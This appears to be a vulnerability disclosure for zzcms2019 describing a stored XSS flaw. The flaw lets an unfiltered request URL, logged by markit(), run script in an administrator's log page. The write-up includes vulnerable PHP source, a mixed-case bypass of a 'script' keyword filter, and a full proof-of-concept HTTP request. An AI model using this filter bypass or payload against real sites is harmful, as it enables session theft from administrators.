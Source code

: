 

# /user/ask.php

Edition: zzcms2019 /user/ask.php

# 0x01 Vulnerability

Get the `do` parameter with the `get` method

```php
<?php
$do=isset($_GET['do'])?$_GET['do']:'';
switch ($do) {
case "add":add();break;
case "modify":modify();break;
}
```

The `modify()`function

```php
function modify()
{
    global $username; ?>

<div class="admintitle">修改问答信息</div>
<?php
$page = isset($_GET['page'])?$_GET['page']:1;
    checkid($page);
    $id = isset($_GET['id'])?$_GET['id']:0;
    checkid($id, 1);

    $sqlzx="select * from zzcms_ask where id='$id'";
    $rszx =query($sqlzx);
    $rowzx = fetch_array($rszx);
    if ($id<>0 && $rowzx["editor"]<>$username) {
        markit();
        showmsg('非法操作！警告：你的操作已被记录！小心封你的用户及IP！');
    } ?>	  
```

Which called the vulnerable function `markit()`

This function in`/inc/function.php`

```php
//$_SERVER['HTTP_REFERER'];//上页来源
function markit()
{
    $userip = $_SERVER["REMOTE_ADDR"];
    //$userip=getip();
    $url = "http://" . $_SERVER['HTTP_HOST'] . $_SERVER['REQUEST_URI'];
    query("insert into zzcms_bad (username,ip,dose,sendtime)values('" . $_COOKIE["UserName"] . "','$userip','$url','" . date('Y-m-d H:i:s') . "')");
}
```

The `$url` is not filtered and inserted directly into the database, so we can register a user and access `http://www.zzcms2019.cc/user/ask.php?do=modify&page=1&id=1`, which will appear

![](https://i.imgur.com/5JxxULl.png)

At this point we can use Burpsuite to capture the package, modify the URI path of the package to `/user/ask.php?do=modify&page=1&id=1&aaa=<sCrIpT>alert(/xss/)</ScRiPt> `

Use `<sCrIpT>alert(/xss/)</ScRiPt>` because there is a detection function in `/inc/stopsqlin.php`

```php
<?php
//主要针对在任何文件后加?%3Cscript%3E，即使文件中没有参数
if (strpos($_SERVER['REQUEST_URI'],'script')!==false || strpos($_SERVER['REQUEST_URI'],'%26%2399%26%')!==false|| strpos($_SERVER['REQUEST_URI'],'%2F%3Cobject')!==false){
die ("无效参数");//注意这里不能用js提示
}
```

![](https://i.imgur.com/H67jYWx.png)

The complete package is as follows

> GET /user/ask.php?do=modify&page=1&id=1&aaa=<sCrIpT>alert(/xss/)</ScRiPt> HTTP/1.1
> Host: www.zzcms2019.cc
> User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0
> Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
> Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
> Accept-Encoding: gzip, deflate
> Cookie: __tins__713776=%7B%22sid%22%3A%201551009070949%2C%20%22vd%22%3A%205%2C%20%22expires%22%3A%201551010962798%7D; __51cke__=; __51laig__=12; bdshare_firstime=1551002231060; PHPSESSID=8o9ms5t57q6dag7ofku75fn2j7; UserName=test; PassWord=e10adc3949ba59abbe56e057f20f883e
> Connection: keep-alive
> Upgrade-Insecure-Requests: 1

When the administrator accesses the **Users→User Bad Action Record** 

![](https://i.imgur.com/VMs1r1r.png)

He/She will be see a alert window which said **/xss/**

![](https://i.imgur.com/MtBdViP.png)



Payload:`url/to/zzmcs/user/ask.php?do=modify&page=1&id=1&aaa=<sCrIpT>alert(/xss/)</ScRiPt>`



